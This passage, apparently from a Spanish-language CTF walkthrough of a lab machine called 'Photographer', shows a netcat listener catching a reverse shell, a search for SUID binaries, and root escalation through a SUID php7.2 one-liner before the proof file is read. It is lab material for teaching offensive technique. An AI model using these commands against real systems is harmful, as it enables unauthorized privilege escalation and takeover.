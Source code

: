 ```bash
❯ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.11.12.10] from (UNKNOWN) [10.11.12.55] 37970
bash: cannot set terminal process group (1522): Inappropriate ioctl for device
bash: no job control in this shell
www-data@photographer:/var/www/html/koken/storage/originals/f6/d9$
```

## Escalación de privilegios

---

Listamos la user flag.

```bash
www-data@photographer:/home/daisa$ cat user.txt
d41d8cd98f00b204e9800998ecf8427e
```

Listamos los `binarios SUID`{: .filepath} del sistema y vemos que tenemos permisos sobre `php7.2`. Usamos [gtfobins](https://gtfobins.github.io/gtfobins/php/#suid).

Listamos la root flag.

```bash
www-data@photographer:/home/daisa$ find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/sbin/pppd
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/php7.2
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/chfn
/bin/ping
/bin/fusermount
/bin/mount
/bin/ping6
/bin/umount
/bin/su

www-data@photographer:/home/daisa$ /usr/bin/php7.2 -r "pcntl_exec('/bin/sh', ['-p']);"
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
# cd /root
# ls
proof.txt
# cat proof.txt

                                .:/://::::///:-`
                            -/++:+`:--:o:  oo.-/+/:`
                         -++-.`o++s-y:/s: `sh:hy`:-/+:`
                       :o:``oyo/o`. `      ```/-so:+--+/`
                     -o:-`yh//.                 `./ys/-.o/
                    ++.-ys/:/y-                  /s-:/+/:/o`
                   o/ :yo-:hNN                   .MNs./+o--s`
                  ++ soh-/mMMN--.`            `.-/MMMd-o:+ -s
```